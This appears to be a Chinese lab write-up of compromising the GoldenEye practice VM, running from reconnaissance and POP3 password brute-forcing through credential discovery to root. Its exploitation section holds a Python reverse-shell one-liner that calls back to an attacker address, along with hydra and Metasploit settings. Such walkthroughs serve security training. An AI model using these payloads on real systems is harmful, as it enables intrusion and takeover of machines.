 

# 记一次对 GoldenEye 的渗透 - 先知社区

记一次对 GoldenEye 的渗透

- - -

# 一、信息收集

1.arp-scan-l 收集目标 ip

[![](assets/1704771507-055e683ab9349c2edfa8484f466d8c76.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108175146-8965e478-ae0b-1.png)

2.使用命令：nmap -sP 192.168.182.0/24

[![](assets/1704771507-8b73989f9bdca4031f7f76aef016caa7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108175200-917fa932-ae0b-1.png)

3.使用命令：nmap -sS -sV -T5 -A -p- 192.168.182.141

[![](assets/1704771507-5a17a79e76d2c0139c5ba7db81c7cc26.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108175217-9b9990d6-ae0b-1.png)

4.到/sev-home/目录中。

[![](assets/1704771507-647eae4205115c9a2c11e9e026d26929.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108175226-a0ec640a-ae0b-1.png)

5.检查主页的 html 内容以获取任何有用的提示（F12 查看）

[![](assets/1704771507-07d138e39ef124fe5305db0e258f4d51.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108175240-a9709d1c-ae0b-1.png)

6.发现了一个用户名和密码，然后发现了一个编码加密

[![](assets/1704771507-265add94a5e77bdf460b66726049126c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108175251-b0217618-ae0b-1.png)

7，使用 burp 解密模块解密。

[![](assets/1704771507-b39249d9991ff1042ab20fcbd727dcd9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108175301-b5b52070-ae0b-1.png)

8.然后登录  
Natalya  
Boris

Natalya  
InvincibleHack3r

[![](assets/1704771507-a6f8bf0d906708b9770ce8f044ab87a5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108175321-c1fb59ee-ae0b-1.png)

9.然后使用 f12 查看，发现了 pop3 服务。POP3 服务器的端口：55006、55007。

[![](assets/1704771507-1973f7b7589a4710c4743c77990f1298.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108175332-c8810e76-ae0b-1.png)

10.浏览器上访问发现是 55007 端口。

[![](assets/1704771507-583f7badf5ff92dc5392b9292100f8f1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108175402-da3d0dea-ae0b-1.png)

11.开始生成字典，开始爆破密码。  
hydra -L t1t.txt -P /usr/share/wordlists/fasttrack.txt 192.168.182.141 -s 55007 pop3

[![](assets/1704771507-5ca81254204413e0c009d3b39be7c1d5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108175412-e041ce9c-ae0b-1.png)

12.开始使用 nc 连接，用户：boris 密码：secret1! 用户：natalya 密码：bird  
然后开始读邮件

[![](assets/1704771507-e0f1aafd8206b547ef8456e77d55c514.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108175423-e687a3c6-ae0b-1.png)

13.使用，用户：natalya 密码：bird，开始都邮件。

[![](assets/1704771507-a9d9eaa4af2cdabfba02feb5a7f835d8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108175432-ec2086d6-ae0b-1.png)

[![](assets/1704771507-07ac9ae91aa960f6e115c4794790f9ec.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108175442-f1d5fff2-ae0b-1.png)

14.找到了敏感信息泄露

[![](assets/1704771507-32a2ab688ad13ab9067d1739f4ea3d6a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108175452-f816acea-ae0b-1.png)

15.进入/etc/hosts 目录，加入 severnaya-station.com

```plain
用户名：xenia
密码：RCP90rulez!
域：severnaya-station.com
网址：severnaya-station.com/gnocertdir
```

我们现根据邮件提示添加本地域名：severnaya-station.com

[![](assets/1704771507-b4ffbc8044a2a22f21e204d42df61c68.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108175509-0259b59e-ae0c-1.png)

16.本地访问。

[![](assets/1704771507-bdf156b11b93fb10a9bba6422d4cf157.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108175520-08c40a1a-ae0c-1.png)

17 登录之后，发现一个 doak 用户

[![](assets/1704771507-bb892f633d160d3f5d1ccfefbe73efa9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108175529-0e38b194-ae0c-1.png)

18.加入字典

[![](assets/1704771507-99eef4ae39b014327e231fe4c252d88c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108175538-1368f52a-ae0c-1.png)

19.开始爆破

成功登录  
[![](assets/1704771507-1811290d5ec90d596aa40e9b57c4f34b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108175552-1bed7f04-ae0c-1.png)  
username: dr\_doak  
password: 4England!  
[![](assets/1704771507-c9c999438defa302c21b3ac0288df74c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108181154-5944d3c8-ae0e-1.png)  
登录之后，发现有一个图片

[![](assets/1704771507-cdc97642fb84e067f661f7970e732d9b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108181257-7eac8f8e-ae0e-1.png)

[![](assets/1704771507-c9431682be562b7e39d6a68a07254b8d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108181136-4eb1aac6-ae0e-1.png)

然后下载到本地。  
[![](assets/1704771507-c2b06bba9541e54d0df70e64f6e170df.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108181308-856720a0-ae0e-1.png)  
进行图片检查  
[![](assets/1704771507-859a535a70c5e71da4b565e037394b2b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108181409-a98d7d3a-ae0e-1.png)  
发现存在 base64 加密的编码  
[![](assets/1704771507-cf492e7817234abf632b6b1b4363cd1c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108181423-b1d375a8-ae0e-1.png)  
解密之后，成功获得管理员用户密码。 
xWinter1995x!

## 二、漏洞利用

[![](assets/1704771507-f3660d7e8f5ccb0b4d7409d49834033f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108181431-b6c068d2-ae0e-1.png)  
接着使用账号密码进行登录。发现其框架和版本。  
[![](assets/1704771507-297ff779173892fff4f1dc6d0ab22c0d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108181521-d4550470-ae0e-1.png)  
使用 google 搜索历史漏洞  
[![](assets/1704771507-8081dd31a9f648b5668bb7e729779b17.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108181528-d89267e4-ae0e-1.png)  
使用 msf 进行搜索 exp  
[![](assets/1704771507-e86ad592781246b7700d8ef4815d993a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108181555-e8b2c240-ae0e-1.png)  
设置 payload

设置用户名：admin  
设置密码：xWinter1995x！  
xWinter1995x！  
设置：rhosts severnaya-station.com  
设置：targeturi / gnocertdir  
设置 payload：cmd / unix / reverse  
设置：lhost 192.168.1.45  
[![](assets/1704771507-ba5e1a5eb4c404e8f171b8481838415c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108181603-edf1d020-ae0e-1.png)  
利用之后，没有成功。接着发现有上传漏洞  
更改编辑器模式为 googlshhell  
[![](assets/1704771507-b84327b46c19705f8e5f705587f26c64.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108181614-f4596ef0-ae0e-1.png)  
添加反弹 shell 的 payload

[![](assets/1704771507-db9d8d6615074175dc8f8133284472b0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108181623-f975ed00-ae0e-1.png)

```plain
python -c ‘import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“192.168.119.128”,6666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

然后新建一个邮件，来触发漏洞  
[![](assets/1704771507-ad56b585ba64b3dc4a1e9d92c8df75e4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108181632-fea84ab6-ae0e-1.png)

成功反弹 shell。  
[![](assets/1704771507-c798c26dd820b948e708b16bd5325345.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108181644-063050da-ae0f-1.png)

## 三、权限提升

接着使用 uname -a 来查看 linux 版本  
使用 msf 搜索可利用的 exp  
[![](assets/1704771507-557b54c49adb8c1381af849005791e03.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108181651-0a745a60-ae0f-1.png)  
下载到本地  
[![](assets/1704771507-f1ae4efcdf98831a32ee4d096d016a13.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108181659-0f0d65bc-ae0f-1.png)  
将 exp 上传到远程服务器  
[![](assets/1704771507-2c8bbdc46b08c0bf90be3e4892e2142a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108181709-14f41b4c-ae0f-1.png)  
[![](assets/1704771507-beee8052b5c4aaf811c93c0c3c5ac4a6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108181716-191439a0-ae0f-1.png)  
使用 cc 进行编译脚本  
[![](assets/1704771507-032262515745ce69993c7b4bdcf282bc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108181723-1d246222-ae0f-1.png)  
开启 http 监听  
[![](assets/1704771507-8c8a228d13f8d07a9dec7eb197fe59fc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108181729-20d50142-ae0f-1.png)  
添加执行权限并执行 exp 脚本  
[![](assets/1704771507-87e3875ae361d765796cd8df94c841e0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108181736-2550843a-ae0f-1.png)  
成功获取 root 文件  
[![](assets/1704771507-dd55d15f5ea4a06d1e0f5c057bd4f9f9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108181744-29f0614a-ae0f-1.png)
